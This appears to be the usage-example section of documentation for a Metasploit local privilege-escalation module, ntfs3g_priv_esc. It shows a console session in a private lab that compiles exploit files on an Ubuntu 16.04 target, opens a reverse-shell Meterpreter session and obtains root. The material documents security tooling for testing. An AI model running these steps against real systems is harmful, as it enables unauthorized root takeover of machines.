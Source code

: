 #### Escalate

    resource (ntfs3g.rc)> use exploit/linux/local/ntfs3g_priv_esc
    resource (ntfs3g.rc)> set verbose true
    verbose => true
    resource (ntfs3g.rc)> set session 1
    session => 1
    resource (ntfs3g.rc)> set target 1
    target => 1
    resource (ntfs3g.rc)> set lhost 192.168.2.117
    lhost => 192.168.2.117
    resource (ntfs3g.rc)> check
    [!] SESSION may not be compatible with this module.
    [+] Vulnerable Ubuntu 16.04 detected
    [*]  The target appears to be vulnerable.
    resource (ntfs3g.rc)> exploit
    [!] SESSION may not be compatible with this module.
    [*] Started reverse TCP handler on 192.168.2.117:4444 
    [+] Vulnerable Ubuntu 16.04 detected
    [+] make is installed
    [+] gcc is installed
    [*] Live compiling exploit on system
    [*] Writing files to target
    [*] Writing rootshell to /tmp/rootshell.c
    [*] Max line length is 65537
    [*] Writing 345 bytes in 1 chunks of 1198 bytes (octal-encoded), using printf
    [*] Writing sploit to /tmp/sploit.c
    [*] Max line length is 65537
    [*] Writing 7632 bytes in 1 chunks of 26966 bytes (octal-encoded), using printf
    [*] Writing rootmod to /tmp/rootmod.c
    [*] Max line length is 65537
    [*] Writing 1115 bytes in 1 chunks of 4016 bytes (octal-encoded), using printf
    [*] Writing Makefile to /tmp/Makefile
    [*] Max line length is 65537
    [*] Writing 18 bytes in 1 chunks of 66 bytes (octal-encoded), using printf
    [*] Writing payload to /tmp/KggJEFqa
    [*] Max line length is 65537
    [*] Writing 206 bytes in 1 chunks of 567 bytes (octal-encoded), using printf
    [*] Starting execution of priv esc.
    [*] Transmitting intermediate stager...(126 bytes)
    [*] Sending stage (2440248 bytes) to 192.168.2.137
    [*] Meterpreter session 2 opened (192.168.2.117:4444 -> 192.168.2.137:53144) at 2017-02-24 21:34:25 -0500
    [!] This exploit may require manual cleanup of '/tmp/rootshell.c' on the target
    [!] This exploit may require manual cleanup of '/tmp/rootshell' on the target
    [!] This exploit may require manual cleanup of '/tmp/sploit.c' on the target
    [!] This exploit may require manual cleanup of '/tmp/sploit' on the target
    [!] This exploit may require manual cleanup of '/tmp/rootmod.c' on the target
    [!] This exploit may require manual cleanup of '/tmp/Makefile' on the target
    [!] This exploit may require manual cleanup of '/tmp/KggJEFqa' on the target
        
    meterpreter > sysinfo
    Computer     : 192.168.2.137
    OS           : Ubuntu 16.04 (Linux 4.4.0-21-generic)
    Architecture : x64
    Meterpreter  : x64/linux
    meterpreter > getuid
    Server username: uid=0, gid=0, euid=0, egid=0
